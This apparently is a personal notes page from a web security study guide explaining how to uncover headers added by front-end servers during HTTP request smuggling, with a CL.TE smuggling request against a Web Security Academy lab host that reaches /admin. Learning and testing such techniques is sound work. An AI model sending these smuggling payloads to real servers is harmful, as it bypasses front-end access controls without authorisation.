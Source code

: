 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Front-end request rewriting

Many applications have front end servers performing rewrites before forwarding requests to the backend server usually adding additional headers to the http request. Such as adding `X-Forwarded-For`, `X-Forwarded-Proto`, and `X-Forwarded-Host` headers.

Original request sent by user to reset password

```http
POST /reset HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

email=bob@example.com
```

Additional headers will be added to provide more information about the original request before it is being forwarded to backend server

```http
POST /reset HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 16
X-Forwarded-For: 192.168.0.1
X-Forwarded-Proto: https
X-Forwarded-Host: example.com

email=bob@example.com
```

Sometimes smuggled request will be missing the additional headers added during the rewriting of request by the front end server, thus making the intended smuggled request fail. So for the smuggled request to succeed, we must be able to find out the additional headers that were added and add them to the smuggled request

## How?

There is often a simple way to reveal exactly how the front-end server is rewriting requests. To do this, you need to perform the following steps:

* Find a POST request that reflects the value of a request parameter into the application's response.
* Shuffle the parameters so that the reflected parameter appears **last** in the message body.
* Smuggle this request to the back-end server, followed directly by a normal request whose rewritten form you want to reveal.

For example the request below, the search parameter will contain the smuggled request so that we can reflect the modifed request via the response

```http
POST / HTTP/1.1
Host: 0ae8002e042489af801dcb43004500da.web-security-academy.net
Content-Length:198
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0ae8002e042489af801dcb43004500da.web-security-academy.net
Content-Length: 300

search=GET /admin HTTP/1.1
Host: 0ae8002e042489af801dcb43004500da.web-security-academy.net
X-xFCnVm-Ip: 218.212.3.153
```

We can see the modified request via the reponse that is reflected using the search parameter which gives us the headers that were added by the front-end. Using this, we can indentify and add this header to our smuggled request and perform the usual HTTP request smuggling technique.

![](<../.gitbook/assets/image (37).png>)
